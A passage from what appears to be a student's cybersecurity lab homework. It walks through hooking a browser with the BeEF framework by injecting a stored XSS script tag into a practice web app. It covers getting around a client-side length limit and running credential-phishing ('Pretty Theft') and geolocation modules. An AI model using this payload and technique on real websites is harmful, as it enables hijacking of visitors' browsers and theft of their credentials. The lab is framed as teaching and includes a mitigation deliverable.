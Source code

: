        ![wd_hw18](Images/wd_hw18.png)

   - Return to the BeEF control panel. In the center panel, select the first option. Note that now on the right panel, the username and password have been captured by the attacker.

     ![wd_hw19](Images/wd_hw19.png)

5. Now that you know how to use the BeEF tool, you'll use it to test the Replicants web application. You are tasked with using a stored XSS attack to inject a BeEF hook into Replicants' main website.

   - Task details:
     - The page you will test is the Replicants Stored XSS application which was used the first day of this unit: `http://192.168.13.25/vulnerabilities/xss_s/`
     - The BeEF hook, which was returned after running the `sudo beef` command was: `http://127.0.0.1:3000/hook.js`
     - The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`

   -  When you attempt to inject this payload,  you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.    
      
      - **Hint:** Try right-clicking and selecting "Inspecting the Element".
    
   - Once you are able to hook into Replicants website, attempt a couple BeEF exploits. Some that work well include:
     
     - Social Engineering >> Pretty Theft
     
     - Social Engineering >> Fake Notification Bar
     
     - Host >> Get Geolocation (Third Party)
    
6. **Deliverable**: Take a screen shot confirming that this exploit was successfully executed and provide 2-3 sentences outlining mitigation strategies.

- Social Engineering >> Pretty Theft

![Social Engineering](https://github.com/Wba-01/Unit-15-Homework/blob/49d82b91fcbd3599f9131aef392f59040417a2a3/Images/week%2015-5.png)
